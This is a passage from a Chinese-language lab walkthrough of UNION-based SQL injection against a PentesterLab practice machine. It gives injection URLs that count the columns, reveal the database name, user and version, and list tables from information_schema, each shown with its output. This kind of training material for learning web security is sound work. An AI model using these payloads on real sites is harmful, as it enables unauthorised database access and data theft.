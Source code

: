 显然，表有 4 列。



- **找到回显数据所在的列数:** 使用联合查询。地址栏中输入以下：

  ```
  http://192.168.55.3/cat.php?id=1 union select 1,2,3,4
  ```

  回显结果：

  ![show](image/show.jpg)

  显然回显结果在第 2 列的位置。



- **使用系统函数在该列显示数据库的名称**

  这里直接查找所有的基本信息。地址栏输入：

  ```
  http://192.168.55.3/cat.php?id=1 union select 1,database(),3,4
  http://192.168.55.3/cat.php?id=1 union select 1,user(),3,4
  http://192.168.55.3/cat.php?id=1 union select 1,version(),3,4
  ```

  得到的输出信息，这里不再逐一截图：

  ```
  database: photoblog
  user: pentesterlab@localhost
  version: 5.1.63-0+squeeze1
  ```



**4）获取数据库下的数据表名**

常规的 SQL 查表名称：

```mysql
select table_name from information_schema.tables where table_schema='database_name' and table_type='base table';
```

为了防止引号的影响，这里去除 where 的筛选条件。因此，在地址栏中输入：

```
http://192.168.55.3/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
```

所有表名都会在第二列中显示，显示结果如下（图片太长，这里给出文本）：

```
Picture: CHARACTER_SETS

CHARACTER_SETS
Picture: COLLATIONS

COLLATIONS
Picture: COLLATION_CHARACTER_SET_APPLICABILITY

COLLATION_CHARACTER_SET_APPLICABILITY
Picture: COLUMNS

COLUMNS
Picture: COLUMN_PRIVILEGES
```